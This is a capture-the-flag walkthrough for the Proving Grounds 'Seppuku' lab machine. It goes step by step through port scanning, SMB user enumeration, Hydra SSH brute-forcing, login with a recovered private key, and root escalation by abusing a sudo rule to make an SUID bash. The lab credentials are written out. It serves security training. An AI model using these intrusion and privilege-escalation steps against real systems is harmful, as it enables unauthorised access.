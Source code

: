 ```yaml
---
layout: default
title: Seppuku
parent: Proving Grounds Play
nav_order: 31
---
```


# Seppuku

---

## Discovered Ports for Enumeration

- 21 - FTP
- 22 - SSH
- 80 - HTTP
- 445 - SMB
- 7080 - ssl empoweri
- 7601 - HTTP
- 8088 - HTTP

## Users and Credentials

- _Users_: seppuku, samurai, tanto
- _Credentials_: seppuku:eeyoree, samurai:12345685213456!@!@A

# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.166.90
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed

## 80 - HTTP

Nothing useful

## 445 - SMB

### Enum4linux

Discovers three user accounts:

- seppuku
- samurai
- tanto

![seppuku_users](../../../assets/images/ctfs/proving_grounds/seppuku/seppuku_users.png)

## 7601 - HTTP

wfuzz discovered /secret directory

![secret](../../../assets/images/ctfs/proving_grounds/seppuku/secret.png)

"password.lst" contains potential user passwords for target machine.

![password_list](../../../assets/images/ctfs/proving_grounds/seppuku/password_list.png)

wfuzz also discovered the /keys directory which contains an RSA private key

![private](../../../assets/images/ctfs/proving_grounds/seppuku/private.png)

# Exploitation

---

## Hydra password cracking

Run Hydra against the user accounts discovered by Enum4Linux and the passwords discovered in the /secrets directory

```bash
hydra -L users -P passwords ssh://192.168.166.90
```

Get the credential _seppuku:eeyoree_

![hydra](../../../assets/images/ctfs/proving_grounds/seppuku/hydra.png)

## Authenticate with RSA key

Authentication with RSA private key discovered in the /keys directory works with "tanto" user

```bash
ssh -i id_rsa tanto@192.168.166.90
```

![tanto_ssh](../../../assets/images/ctfs/proving_grounds/seppuku/tanto_ssh.png)

# Post-Exploitation

---

## Enumerate user directories

Locate _.passwd_ file located in /home/seppuku directory.

samurai:12345685213456!@!@A
{: .warn }

## sudo -l

The "samurai" user can run the following command with sudo privileges and no password:

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

![sudo_l](../../../assets/images/ctfs/proving_grounds/seppuku/sudo_l.png)

We can exploit this with the following steps:

1. ssh as "tanto"
2. create directory .cgi_bin
3. create "bin" file in /.cgi_bin
4. make "bin" executable
5. switch back to "samurai" user
6. execute the sudo command to create /var/tmp/bash
7. execute /var/tmp/bash and get root privileges

### SSH as tanto user

We discovered the id_rsa private key for "tanto" during enumeration

```bash
ssh -i id_rsa tanto@192.168.166.90
```

### Create /.cgi_bin/bin

```bash
mkdir .cgi_bin
cd .cgi_bin
nano bin
```

![bin_file](../../../assets/images/ctfs/proving_grounds/seppuku/bin_file.png)

Make "bin" executable

```bash
chmod +x bin
```

### Execute sudo command as samurai user

Reauthenticate as the "samurai" user and execute the privileged sudo command

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

### Run bash binary and get root privileges

```bash
cd /var/tmp
./bash -p
```

![root](../../../assets/images/ctfs/proving_grounds/seppuku/root.png)
